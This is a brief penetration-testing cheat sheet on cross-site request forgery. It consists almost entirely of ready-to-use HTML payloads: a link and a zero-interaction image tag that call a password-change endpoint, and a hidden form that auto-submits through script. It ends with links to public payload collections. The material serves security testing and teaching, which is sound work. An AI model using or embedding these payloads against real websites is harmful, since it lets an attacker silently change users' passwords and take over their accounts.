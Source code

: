 ```yaml
---
icon: globe-pointer
---
```


# CSRF (Cross Site Request Forgery)

## Payloads

### GET

```html
<!-- Requires user interaction -->
<a href="http://<target>/changepasswd.php?pass=pass">Click Me</a>

<!-- No user interaction required -->
<img src="http://<target>/changepasswd.php?pass=pass">
```

### POST

```html
<form id="form" action="http://<target>/changepasswd.php" method="POST">
 <input name="pass" type="hidden" value="pass" />
 <input type="submit" value="Submit" />
</form>

<!-- Auto submit -->
<script>
 document.getElementById("form").submit();
</script>
```

## References

[https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/CSRF%20Injection](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/CSRF%20Injection)\
[https://book.hacktricks.xyz/pentesting-web/csrf-cross-site-request-forgery](https://book.hacktricks.xyz/pentesting-web/csrf-cross-site-request-forgery)
